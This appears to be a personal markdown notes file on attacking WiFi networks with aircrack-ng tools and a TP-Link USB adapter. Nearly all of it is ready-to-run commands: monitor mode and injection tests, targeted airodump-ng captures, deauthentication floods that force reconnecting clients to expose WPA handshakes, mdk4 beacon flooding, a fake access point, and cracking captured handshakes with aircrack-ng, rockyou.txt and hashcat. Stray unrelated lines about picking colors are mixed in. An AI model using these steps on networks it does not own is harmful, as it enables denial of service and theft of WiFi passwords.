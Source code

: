 product : https://www.startech.com.bd/tp-link-archer-t2u-plus-ac600-600mbps-usb-adapter
TP-Link AC600 Archer T2U Plus

tab -> select color  <br />
m -> pick a random color  <br />
s -> default sort by different range  <br />
i -> invert sort algorithm


## cheapset active check
```
sudo iwconfig
```

check adapter information mode:
```
sudo airmon-ng start wlx00117f1b8884 
```
or 
```
sudo airmon-ng start wlan0mon
SUDO airmon-ng check kill
```


check again is active monitor mode
```
iwconfig
```

inkjection mode check:
```
sudo aireplay-ng --test wlan0
```




1. show all wifi info/interface:
sudo airodump-ng wlan0mon
2. focus only channel 6
sudo airodump-ng wlan0mon -c 6 
3. specify network address info
sudo airodump-ng wlan0mon -c 6 --bssid 
4. capture the file
sudo airodump-ng wlan0mon -c 6 --bssid -w capture
5. caputre range 5ghz
sudo airodump-ng wlan0mon -b a





specific wifi connect device information:
```
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 wlan0mon
sudo airodump-ng --bssid 54:AF:97:C7:D0:06 -c 9 --write capture wlan0mon
```
shows that
 54:AF:97:C7:D0:06  3A:D8:79:90:6C:23   -1    1e- 0      0        2             
 54:AF:97:C7:D0:06  A2:0B:6B:10:88:9C  -86    2e- 1      0      277             
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88   -1    1e- 0      0       21 
i choose - 1
 54:AF:97:C7:D0:06  52:D5:C7:80:2D:88

get handshaking file
```
sudo aireplay-ng --deauth 10 -a [bssid] -c [station] wlan0mon
sudo aireplay-ng --deauth 10 -a 54:AF:97:C7:D0:06 -c 52:D5:C7:80:2D:88 wlan0mon
```
wireshark check using : eapol


flood attack
```
sudo mdk4 wlan0mon b -c 1 -f wifi.lst
```

****************************************************************************
# Capture Traffic & Nearby Wifi Networks
Capture the packets and export it to your machine / show target network & connected device
```
sudo airodump-ng --bssid [target-bssid] -c [channel-id] --write [filename] [network-adapter]
sudo airodump-ng --bssid 34:60:F9:71:04:C2 -c 4 --write wifitest wlan0mon
```

# Deauth the users that are connected to the target network
 User will need to input the wifi password to connect again
```
sudo aireplay-ng --deauth [number-of-packets(>50)] -a [target-bssid] [network-adapter]
sudo aireplay-ng --deauth 200 -a 34:60:F9:71:04:C2 wlan0mon
```
to test in wireshark : eapol


file the DOS attack is underway, check on your airodump scan. You should see at the right top : WPA handshake: <mac address>. Once you have verified that, you can stop the replay attack and the airodump-ng scan.
```
sudo airodump-ng --bssid [code] -c 3 --write phonehotspot wlan0mon
```

#CRACK THE PASSWORD
using bruth force : 
```
sudo aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt ../Captures_1578171018678/NinjaJc01-01.cap
```
****************************************************************************

Attack a specific BSSID:
```
aircrack-ng -b 02:1A:11:FF:D9:BD -w wordlist.txt capture_file.cap
```

aircrack-ng capture.cap -J output
getoutput : cap2hccapx
hashcat -m 2500 output.hccapx wordlist.txt --force

*****************************************************

  signal name generated
  ```
  sudo airbase-ng -a [bssid] --essid "foysal" -c 11 wlan0
  sudo airodump-ng wlan0mon -c 6 & wireshark
  ```
